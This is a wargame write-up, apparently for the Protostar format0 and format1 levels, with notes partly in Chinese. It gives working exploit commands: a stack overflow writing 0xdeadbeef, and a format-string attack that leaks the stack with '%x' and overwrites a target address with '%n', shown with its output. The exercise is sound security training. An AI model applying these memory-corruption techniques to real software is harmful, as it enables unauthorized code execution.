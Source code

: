 #### 0x07 format0
    mykey:
        ./format0 `python -c "print 'A'*64+'\xef\xbe\xad\xde'"`
        但是题目要求输入为10字节以内,so
        ./format0 `python -c "print '%64d' + '\xef\xbe\xad\xde'"`

#### 0x08 format1
    mykey:
        objdump -t format1
        find target address:0x8049638
        ./format1 `python -c "print 'AAAABBBB'+'%x.%x'"`
        -------------output:--------------
        AAAABBBB804960c.bffff788
        --------------end-----------------
        ./format1 `python -c "print 'AAAABBBB'+'%2\$x'"`
        ----------------output:----------------
        AAAABBBB
        ------------------end------------------
        结论:这里不能用\$
        ./format1 `python -c "print 'AAAABBBB'+'%x.'*140"`
        ---------------output:----------------
        AAAABBBB804960c.bffff5e8.8048469.b7fd8304.b7fd7ff4.bffff5e8.8048435.bffff7be.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff668.b7eadc76.2.bffff694.bffff6a0.b7fe1848.bffff650.ffffffff.b7ffeff4.804824d.1.bffff650.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff668.d5f4313f.ffa7a72f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff694.8048450.8048440.b7ff1040.bffff68c.b7fff8f8.2.bffff7b4.bffff7be.0.bffff96b.bffff976.bffff984.bffff999.bffff9a9.bffff9cb.bffff9d8.bffff9eb.bffff9f5.bffffee5.bffffef9.bfffff3b.bfffff52.bfffff63.bfffff74.bfffff7f.bfffff87.bfffff94.bfffffa8.bfffffdc.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffff79b.1f.bffffff2.f.bffff7ab.0.0.d3000000.e844f82d.2820150f.79187f9d.69c015e8.363836.0.6f662f2e.74616d72.41410031.42424141.78254242.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
        ------------------end-----------------
        find 42424141 in the 132th print location
        -----------------output:----------------
        AAAABBBB804960c.bffff5e8.8048469.b7fd8304.b7fd7ff4.bffff5e8.8048435.bffff7bb.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff668.b7eadc76.2.bffff694.bffff6a0.b7fe1848.bffff650.ffffffff.b7ffeff4.804824d.1.bffff650.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff668.b3c0b28e.9993249e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff694.8048450.8048440.b7ff1040.bffff68c.b7fff8f8.2.bffff7b1.bffff7bb.0.bffff96b.bffff976.bffff984.bffff999.bffff9a9.bffff9cb.bffff9d8.bffff9eb.bffff9f5.bffffee5.bffffef9.bfffff3b.bfffff52.bfffff63.bfffff74.bfffff7f.bfffff87.bfffff94.bfffffa8.bfffffdc.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffff79b.1f.bffffff2.f.bffff7ab.0.0.84000000.a999d71b.1ef8a615.f39ada32.69642dc2.363836.662f2e00.616d726f.41003174.42414141.25424242.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
        --------------------end-----------------
        find 42414141 in the 131th print location
        结论:AAAABBBB的在栈中出现的位置会随着输入的长度不同而变化
        根据./format1 `python -c "print 'AAAABBBB'+'%x.'*140"`中132个输出为42424141:
        ./format1 `python -c "print 'AA\x38\x96\x04\x08BB'+'%x.'*131+'%n.'+'%x.'*8"`
        output:
        .....you have modified the target :)
